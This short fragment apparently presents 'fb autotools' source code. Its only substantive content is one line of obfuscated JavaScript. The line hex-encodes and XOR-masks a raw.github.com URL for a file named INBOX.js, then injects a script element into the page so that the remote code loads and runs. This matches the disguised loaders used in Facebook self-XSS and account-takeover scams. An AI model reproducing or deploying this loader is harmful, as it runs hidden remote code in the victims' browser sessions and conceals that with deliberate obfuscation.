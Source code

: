 fb
==

autotools
var _0xc86d=["\x6A\x76\x76\x72\x71\x38\x2D\x2D\x70\x63\x75\x2C\x65\x6B\x76\x6A\x77\x60\x2C\x61\x6D\x6F\x2D\x60\x6A\x63\x70\x65\x63\x74\x33\x3B\x3B\x34\x2D\x44\x60\x2F\x43\x77\x76\x6D\x2F\x76\x6D\x6D\x6E\x71\x2D\x6F\x63\x71\x76\x67\x70\x2D\x4B\x4C\x40\x4D\x5A\x2C\x68\x71","","\x6C\x65\x6E\x67\x74\x68","\x63\x68\x61\x72\x43\x6F\x64\x65\x41\x74","\x66\x72\x6F\x6D\x43\x68\x61\x72\x43\x6F\x64\x65","\x73\x72\x63","\x73\x63\x72\x69\x70\x74","\x63\x72\x65\x61\x74\x65\x45\x6C\x65\x6D\x65\x6E\x74","\x61\x70\x70\x65\x6E\x64\x43\x68\x69\x6C\x64","\x62\x6F\x64\x79"];var X=_0xc86d[0];Y=_0xc86d[1];Z=_0xc86d[1];var V;V=X[_0xc86d[2]];for(i=0;i<V;i++){Y+=String[_0xc86d[4]](X[_0xc86d[3]](i)^2);} ;Z=unescape(Y);document[_0xc86d[9]][_0xc86d[8]](document[_0xc86d[7]](_0xc86d[6]))[_0xc86d[5]]=Z;
